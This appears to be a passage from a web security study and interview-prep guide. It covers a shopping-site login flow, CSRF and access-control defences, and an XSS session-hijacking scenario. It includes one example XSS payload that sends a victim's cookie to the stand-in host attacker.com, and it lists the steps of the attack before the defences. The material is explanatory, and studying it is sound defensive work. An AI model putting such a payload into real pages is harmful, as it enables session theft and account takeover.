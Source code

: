   * **Amazon Auth Flow:**

      * **Scenario:** A user logs into Amazon, then adds an item to their cart, and proceeds to checkout.
      * **Security Controls:**
          * **Federated Identity (SSO):** Amazon often uses internal SSO for its various services (Prime Video, AWS, etc.) after initial authentication. OAuth2/OpenID Connect are likely underlying protocols.
          * **Cookie-based Authentication:** For web browser sessions.
          * **CSRF Protection:** Critical for actions like adding to cart, making purchases. Hidden CSRF tokens in forms and anti-CSRF headers for AJAX.
          * **Input Validation:** On product search, quantity, shipping address.
          * **Payment Gateway Integration:** Securely handles payment details, often offloading PCI DSS compliance to external providers.
          * **API Security:** For mobile apps and internal services.
      * **Potential Exploit (and defense):**
          * **Cross-Site Request Forgery (CSRF):** An attacker tricks a logged-in user into making an unintended purchase.
              * **Defense:** CSRF tokens (`SameSite` cookies for modern browsers, explicit tokens for older browsers/APIs).
          * **Broken Access Control:** A user manipulates a URL parameter to view another user's order details.
              * **Defense:** Proper server-side authorization checks on every resource access, ensuring the authenticated user is authorized to view that specific order.

  * **Cookie/Session Exploit Analysis (e.g., Session Hijacking with XSS):**

      * **Scenario:** A website has an XSS vulnerability in a comment section. An attacker posts a comment like:
        `<script>window.location='http://attacker.com/steal?cookie='+document.cookie;</script>`
      * **Exploit:**
        1.  A legitimate user visits the page with the malicious comment.
        2.  The browser executes the attacker's JavaScript.
        3.  The JavaScript tries to read `document.cookie` and sends it to `attacker.com`.
        4.  If the session cookie does *not* have the `HttpOnly` flag, the JavaScript successfully reads and exfiltrates the session cookie.
        5.  The attacker receives the victim's session cookie.
        6.  The attacker uses this cookie in their own browser (e.g., with a browser extension) to hijack the victim's session and impersonate them without needing their password.
      * **Defense:**
        1.  **Output Encoding:** The primary defense against XSS. Properly encode all user-supplied output (e.g., using Thymeleaf's `th:text` or JSTL's `<c:out>`). This would turn `<script>` into `&lt;script&gt;`, preventing execution.
        2.  **`HttpOnly` Cookie Flag:** Even if XSS is present, if your session cookie is marked `HttpOnly`, the attacker's JavaScript *cannot* access `document.cookie`, preventing cookie theft. This is a crucial **defense-in-depth** measure.
        3.  **Content Security Policy (CSP):** A security mechanism that helps mitigate XSS attacks by whitelisting sources of content (e.g., scripts, styles, images). If the malicious script tries to send data to `attacker.com`, and `attacker.com` is not in the CSP's `connect-src` whitelist, the browser will block the request.

-----

### 🧠 Interview Preparation (MCQs, scenario-based Qs, explanations)
